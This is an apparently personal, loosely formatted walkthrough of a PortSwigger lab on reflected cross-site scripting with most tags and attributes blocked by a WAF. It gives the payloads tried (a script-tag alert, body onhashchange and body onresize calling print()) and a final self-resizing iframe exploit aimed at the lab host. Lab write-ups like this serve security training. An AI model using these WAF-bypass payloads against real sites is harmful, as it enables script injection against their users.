









> platform -> PortSwigger
> ### Target -> Lab: Reflected XSS into HTML context with most tags and attributes blocked
```bash
This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.
To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the print() function.

```

---
***where is Vulnerability:***
**Goal**

---

### Step:
- 1. open a lab.
- 2. fill simple vanilla xss pay load ->  `<script>alert(1)</script>` **block** 
- 3. try bruteforce in intruder which tag are allowed
- 4. 
  - ## body tag allow
- 5. now i try this payload using bodytag in xss cheat provided by portswigger 
```javascript
<body onhashchange="print()">

```
- 6. there is attribute error 
- 7. fuzz this 
  - 
  - 
- 8. have many optins
- 9. try this
```javascript
<body onresize="print()">
```
- 10. go exploit server
- 11.  with our exploit
  - `<iframe src="https://0abd00e00408e901803fa8bf0052000c.web-security-academy.net/?search=%3Cbody+onresize%3D%22print%28%29%22%3E" onload=this.style.width='100px'>`
- 12. deliver our exploit 
- 13. lab solve
